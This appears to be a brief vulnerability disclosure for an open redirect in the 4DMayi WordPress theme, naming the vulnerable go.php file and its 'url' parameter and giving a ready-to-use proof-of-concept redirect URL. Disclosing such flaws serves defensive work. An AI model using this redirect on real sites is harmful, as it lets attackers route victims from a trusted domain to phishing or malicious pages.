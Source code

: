 # issue_20190526_2
WordPress_4.9.10_4DMayi_Themes_4.6_Open_Redirection

# Vulnerable File :
*****************
/go.php

# Vulnerable Parameters :
***********************
?url=

# Open Redirection Exploit :
**************************
/wp-content/themes/4dmayi/inc/go.php?url=https://www.[REDIRECTADDRESS].gov
